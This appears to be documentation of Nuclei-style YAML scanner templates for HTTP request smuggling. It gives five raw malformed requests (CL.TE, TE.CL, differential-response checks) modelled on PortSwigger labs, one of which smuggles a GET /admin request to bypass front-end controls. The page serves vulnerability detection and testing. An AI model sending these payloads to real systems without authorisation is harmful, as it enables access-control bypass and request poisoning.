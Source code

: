 ```yaml
---
title: "HTTP Smiggling Examples"
---
```


## Basic CL.TE

This template makes a defined malformed HTTP POST requests using rawhttp library and checking for string match against response.

```yaml
id: CL-TE-http-smuggling

info:
  name: HTTP request smuggling, basic CL.TE vulnerability
  author: pdteam
  severity: info
  reference: https://portswigger.net/web-security/request-smuggling/lab-basic-cl-te

http:
  - raw:
    - |+
      POST / HTTP/1.1
      Host: {{Hostname}}
      Connection: keep-alive
      Content-Type: application/x-www-form-urlencoded
      Content-Length: 6
      Transfer-Encoding: chunked
      
      0
      
      G
    - |+
      POST / HTTP/1.1
      Host: {{Hostname}}
      Connection: keep-alive
      Content-Type: application/x-www-form-urlencoded
      Content-Length: 6
      Transfer-Encoding: chunked
      
      0
      
      G
      
    unsafe: true
    matchers:
      - type: dsl
        dsl:
          - 'contains(body, "Unrecognized method GPOST")'
```

## Basic TE.CL

This template makes a defined malformed HTTP POST requests using rawhttp library and checking for string match against response.


```yaml
id: TE-CL-http-smuggling

info:
  name: HTTP request smuggling, basic TE.CL vulnerability
  author: pdteam
  severity: info
  reference: https://portswigger.net/web-security/request-smuggling/lab-basic-te-cl

http:
  - raw:
    - |+
      POST / HTTP/1.1
      Host: {{Hostname}}
      Content-Type: application/x-www-form-urlencoded
      Content-length: 4
      Transfer-Encoding: chunked
      
      5c
      GPOST / HTTP/1.1
      Content-Type: application/x-www-form-urlencoded
      Content-Length: 15
      
      x=1
      0
    - |+
      POST / HTTP/1.1
      Host: {{Hostname}}
      Content-Type: application/x-www-form-urlencoded
      Content-length: 4
      Transfer-Encoding: chunked
      
      5c
      GPOST / HTTP/1.1
      Content-Type: application/x-www-form-urlencoded
      Content-Length: 15
      
      x=1
      0
      
    unsafe: true
    matchers:
      - type: dsl
        dsl:
          - 'contains(body, "Unrecognized method GPOST")'
```

## Frontend bypass CL.TE

This template makes a defined malformed HTTP POST requests using rawhttp library and checking for string match against response.


```yaml
id: smuggling-bypass-front-end-controls-cl-te

info:
  name: HTTP request smuggling to bypass front-end security controls, CL.TE vulnerability
  author: pdteam
  severity: info
  reference: https://portswigger.net/web-security/request-smuggling/exploiting/lab-bypass-front-end-controls-cl-te

http:
  - raw:
    - |+
      POST / HTTP/1.1
      Host: {{Hostname}}
      Content-Type: application/x-www-form-urlencoded
      Content-Length: 116
      Transfer-Encoding: chunked
      
      0
      
      GET /admin HTTP/1.1
      Host: localhost
      Content-Type: application/x-www-form-urlencoded
      Content-Length: 10
      
      x=
    - |+
      POST / HTTP/1.1
      Host: {{Hostname}}
      Content-Type: application/x-www-form-urlencoded
      Content-Length: 116
      Transfer-Encoding: chunked
      
      0
      
      GET /admin HTTP/1.1
      Host: localhost
      Content-Type: application/x-www-form-urlencoded
      Content-Length: 10
      
      x=
      
    unsafe: true
    matchers:
      - type: dsl
        dsl:
          - 'contains(body, "/admin/delete?username=carlos")'
```

## Differential responses based CL.TE

This template makes a defined malformed HTTP POST requests using rawhttp library and checking for string match against response.


```yaml
id: confirming-cl-te-via-differential-responses-http-smuggling

info:
  name: HTTP request smuggling, confirming a CL.TE vulnerability via differential responses
  author: pdteam
  severity: info
  reference: https://portswigger.net/web-security/request-smuggling/finding/lab-confirming-cl-te-via-differential-responses

http:
  - raw:
    - |+
      POST / HTTP/1.1
      Host: {{Hostname}}
      Content-Type: application/x-www-form-urlencoded
      Content-Length: 35
      Transfer-Encoding: chunked
      
      0
      
      GET /404 HTTP/1.1
      X-Ignore: X
    - |+
      POST / HTTP/1.1
      Host: {{Hostname}}
      Content-Type: application/x-www-form-urlencoded
      Content-Length: 35
      Transfer-Encoding: chunked
      
      0
      
      GET /404 HTTP/1.1
      X-Ignore: X
      
    unsafe: true
    matchers:
      - type: dsl
        dsl:
          - 'status_code==404'
```

## Differential responses based TE.CL

This template makes a defined malformed HTTP POST requests using rawhttp library and checking for string match against response.


```yaml
id: confirming-te-cl-via-differential-responses-http-smuggling

info:
  name: HTTP request smuggling, confirming a TE.CL vulnerability via differential responses
  author: pdteam
  severity: info
  reference: https://portswigger.net/web-security/request-smuggling/finding/lab-confirming-te-cl-via-differential-responses

http:
  - raw:
    - |+
      POST / HTTP/1.1
      Host: {{Hostname}}
      Content-Type: application/x-www-form-urlencoded
      Content-length: 4
      Transfer-Encoding: chunked
      
      5e
      POST /404 HTTP/1.1
      Content-Type: application/x-www-form-urlencoded
      Content-Length: 15
      
      x=1
      0
    - |+
      POST / HTTP/1.1
      Host: {{Hostname}}
      Content-Type: application/x-www-form-urlencoded
      Content-length: 4
      Transfer-Encoding: chunked
      
      5e
      POST /404 HTTP/1.1
      Content-Type: application/x-www-form-urlencoded
      Content-Length: 15
      
      x=1
      0
      
    unsafe: true
    matchers:
      - type: dsl
        dsl:
          - 'status_code==404'
```
